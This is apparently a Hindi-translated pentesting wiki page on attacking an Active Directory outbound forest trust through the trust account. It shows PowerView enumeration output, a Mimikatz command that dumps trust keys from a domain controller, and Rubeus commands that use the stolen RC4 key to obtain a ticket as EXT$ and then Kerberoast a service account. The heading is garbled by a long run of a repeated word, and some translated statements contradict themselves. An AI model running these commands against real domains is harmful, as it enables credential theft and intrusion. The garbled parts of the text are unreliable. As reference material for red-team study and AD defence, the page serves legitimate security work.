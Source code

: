 # बाहरी वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन व
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## विश्वास खाता हमला

एक सुरक्षा दुरुपयोग उत्पन्न होता है जब दो डोमेन के बीच विश्वास संबंध स्थापित किया जाता है, जिन्हें यहाँ डोमेन **A** और डोमेन **B** के रूप में पहचाना गया है, जहां डोमेन **B** अपना विश्वास डोमेन **A** के प्रति बढ़ाता है। इस सेटअप में, डोमेन **A** में डोमेन **B** के लिए एक विशेष खाता बनाया जाता है, जो दोनों डोमेन के बीच प्रमाणीकरण प्रक्रिया में महत्वपूर्ण भूमिका निभाता है। इस खाते को जिसे डोमेन **B** से जोड़ा गया है, दोनों डोमेन के बीच सेवाओं तक पहुँचने के लिए टिकटों को एन्क्रिप्ट करने के लिए उपयोग किया जाता है।

यहाँ महत्वपूर्ण पहलू समझना है कि इस विशेष खाते का पासवर्ड और हैश डोमेन **A** में एक डोमेन कंट्रोलर से निकाला जा सकता है जिसके लिए एक कमांड लाइन टूल का उपयोग किया जाता है। इस कार्रवाई को करने के लिए कमांड है:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
यह निकास संभव है क्योंकि खाता, जिसे उसके नाम के बाद **$** के साथ पहचाना गया है, सक्रिय है और डोमेन **A** के "Domain Users" समूह का हिस्सा है, इसलिए इस समूह से संबंधित अनुमतियों को विरासत में प्राप्त करता है। इससे व्यक्तियों को इस खाते के प्रमाणों का उपयोग करके डोमेन **A** के खिलाफ प्रमाणीकरण करने की अनुमति होती है।

**चेतावनी:** डोमेन **A** में एक उपयोगकर्ता के रूप में एक कदम प्राप्त करने के लिए इस स्थिति का उपयोग करना संभव है, हालांकि इस एक्सेस से सीमित अनुमतियों के साथ। हालांकि, यह एक्सेस डोमेन **A** पर जांच करने के लिए पर्याप्त है।

जहां `ext.local` विश्वसनीय डोमेन है और `root.local` विश्वसनीय डोमेन है, वहां `root.local` में `EXT$` नाम का एक उपयोगकर्ता खाता बनाया जाएगा। विशेष उपकरणों के माध्यम से, Kerberos विश्वास कुंजियों को डंप करना संभव है, जिससे `root.local` में `EXT$` के प्रमाणों को प्रकट किया जा सकता है। इसे प्राप्त करने के लिए यह आदेश है:
```bash
lsadump::trust /patch
```
निम्नलिखित के अनुसार, कोई भी एक्सट्रैक्ट किया गया RC4 कुंजी का उपयोग करके `root.local` में `root.local\EXT$` के रूप में प्रमाणीकरण के लिए एक और उपकरण कमांड का उपयोग किया जा सकता है:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
यह प्रमाणीकरण चरण `root.local` के भीतर सेवाओं को जांचने और उन्हें उत्पीड़ित करने की संभावना खोलता है, जैसे कि सेवा खाता क्रेडेंशियल निकालने के लिए Kerberoast हमला करना:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### साफ पाठ्य विश्वसनीयता पासवर्ड जुटाना

पिछले फ्लो में विश्वसनीयता हैश का उपयोग किया गया था बजाय **साफ पाठ्य विश्वसनीयता पासवर्ड** का (जो **mimikatz द्वारा डंप किया गया था**).

साफ पाठ्य विश्वसनीयता पासवर्ड को हेक्साडेसिमल से परिवर्तित करके और नल बाइट्स '\x00' को हटाकर प्राप्त किया जा सकता है:

![](<../../.gitbook/assets/image (2) (1) (2) (1).png>)

कभी-कभी विश्वास संबंध बनाते समय, एक पासवर्ड को यूजर द्वारा विश्वास के लिए टाइप किया जाना चाहिए। इस प्रदर्शन में, कुंजी मूल विश्वास पासवर्ड है और इसलिए मानव द्वारा पढ़ने योग्य है। जैसे ही कुंजी साइकिल होती है (30 दिन), साफ पाठ्य अब मानव द्वारा पढ़ने योग्य नहीं होगा लेकिन तकनीकी रूप से उपयोगी रहेगा।

साफ पाठ्य विश्वसनीयता पासवर्ड का उपयोग नियमित प्रमाणीकरण के लिए किया जा सकता है जैसे विश्वास खाता, विश्वास खाते के कर्बेरोस गुप्त कुंजी का उपयोग करके एक टीजीटी का अनुरोध करने का एक विकल्प। यहाँ, ext.local से root.local का क्वेरी करके Domain Admins के सदस्यों के लिए:

![](<../../.gitbook/assets/image (1) (1) (1) (2).png>)

## संदर्भ

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)
